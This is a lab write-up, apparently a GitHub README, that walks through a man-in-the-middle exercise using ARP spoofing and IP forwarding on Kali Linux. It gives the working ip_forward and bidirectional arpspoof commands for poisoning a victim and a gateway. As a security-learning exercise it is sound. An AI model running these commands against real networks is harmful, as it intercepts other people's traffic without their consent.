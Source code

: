 # ARP Spoofing & IP Forwarding Lab (Phase 1 Completion)

## Objective
Simulate a local Man-in-the-Middle (MitM) attack by using ARP spoofing to intercept traffic between a victim device and the network gateway. Validate ARP poisoning and confirm traffic forwarding.

---

## Tools Used
- OS: VirtualBox (Kali Linux guest)
- Tools: `arpspoof`, `ifconfig` / `ip`, `tee`

---

## Step-by-Step Process

### 1. Identify Network Interfaces & IPs
Used the following to find active interfaces and local IP:

```bash
ip a
```

- **Local IP (eth0)**: `10.0.2.15`
- **Loopback**: `127.0.0.1`

---

### 2. Identify Gateway IP

```bash
ip route
```

- **Gateway IP found** (example): `10.0.2.1`

---

### 3. Enable IP Forwarding

```bash
echo 1 | sudo tee /proc/sys/net/ipv4/ip_forward
```

- **Output**: `1` confirms forwarding is enabled.
- This allows Kali to forward packets between victim and gateway.

---

### 4. Launch ARP Spoofing

**Terminal 1**: Spoof target to think attacker is gateway:

```bash
sudo arpspoof -i eth0 -t [target_ip] [gateway_ip]
```

**Terminal 2**: Spoof gateway to think attacker is target:

```bash
sudo arpspoof -i eth0 -t [gateway_ip] [target_ip]
```

_Replace `[target_ip]` and `[gateway_ip]` with the actual IPs you gathered._

---

## Confirmation

- Once both spoofing commands are running, the attacker (you) is in the middle of the traffic flow.
- You may use tools like `tcpdump` or `Wireshark` to observe traffic being relayed.

---

## Key Concepts Demonstrated

| Concept          | Description |
|------------------|-------------|
| **ARP Spoofing** | Redirects LAN traffic by sending forged ARP replies, poisoning ARP cache. |
| **IP Forwarding**| Enables traffic to flow between interfaces (acts like a router). |
| **Man-in-the-Middle** | Intercept and optionally modify traffic between two endpoints. |

---

## Notes

- Ensure `arpspoof` is properly installed (manual build may be required on macOS).
- Spoofing may not work on networks with protection (e.g., DHCP snooping or ARP inspection).
- Always practice ARP spoofing in lab/safe environments.

---

#KREWLONLY
